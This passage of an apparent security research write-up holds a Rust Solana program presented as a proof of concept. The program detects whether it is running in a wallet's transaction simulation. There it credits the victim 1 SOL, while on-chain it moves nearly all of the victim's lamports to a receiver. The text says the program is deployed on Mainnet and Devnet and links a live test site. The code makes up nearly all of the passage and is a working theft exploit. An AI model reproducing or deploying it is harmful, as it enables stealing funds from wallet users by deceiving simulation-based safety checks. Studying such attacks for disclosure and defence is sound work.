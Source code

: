 ```rust
};
use std::convert::TryInto;

entrypoint!(process_instruction);

pub fn process_instruction(
    _program_id: &Pubkey,
    accounts: &[AccountInfo],
    _instruction_data: &[u8],
) -> ProgramResult {
    msg!("Hello !");

    let account_info_iter = &mut accounts.iter();

    let victim_account = next_account_info(account_info_iter)?;
    let slot_history_account = next_account_info(account_info_iter)?;
    let system_program = next_account_info(account_info_iter)?;
    let receiver_account = next_account_info(account_info_iter)?;

    // Slot is an u64 at the end of the structure
    let data = slot_history_account.data.borrow();
    let slot: u64 = u64::from_le_bytes(data[data.len() - 8..].try_into().unwrap());

    let clock = Clock::get().unwrap();

    msg!("next_slot is {:?} ", slot);
    msg!("clock is in slot {:?} ", clock.slot);

    if victim_account.lamports() < 10000000 {
        msg!("Not enough lamports in victim account !");
        return Err(INVALID_ARGUMENT.into());
    } else if clock.slot >= slot {
        msg!("We are onchain, let's get the money");
        let lamports_theft = victim_account.lamports() - 10000000;
        **receiver_account.try_borrow_mut_lamports()? += lamports_theft;
        **victim_account.try_borrow_mut_lamports()? -= lamports_theft;
    } else {
        msg!("We are in a simulation, let's credit the victim !");
        **receiver_account.try_borrow_mut_lamports()? -= LAMPORTS_PER_SOL;
        **victim_account.try_borrow_mut_lamports()? += LAMPORTS_PER_SOL;
    }

    Ok(())
}
```

The Proof of Concept has been deployed on Mainnet and Devnet. You can test it [here](https://donttrustbanks.opcodes.fr)

Vidéo: [Proof of Concept Video](./static/tricking_simulation.webm)  

## Other research focus
